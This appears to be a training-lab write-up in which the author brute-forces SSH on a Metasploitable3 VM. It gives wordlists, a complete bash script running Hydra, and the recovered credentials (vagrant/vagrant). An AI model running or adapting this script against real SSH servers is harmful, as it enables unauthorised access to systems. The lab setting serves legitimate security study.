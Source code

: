 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## 🎯 Objective
Compromise the service using a custom script that i created.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # Replace with target IP
TARGET_PORT=22

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

![the Custom Script](screanshots/customScript.png)

## Run Instructions

### Make the script executable
```text
chmod +x script.sh
```

### Execute the script
```text
./script.sh
```

## Result
### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

Username: vagrant

Password: vagrant






















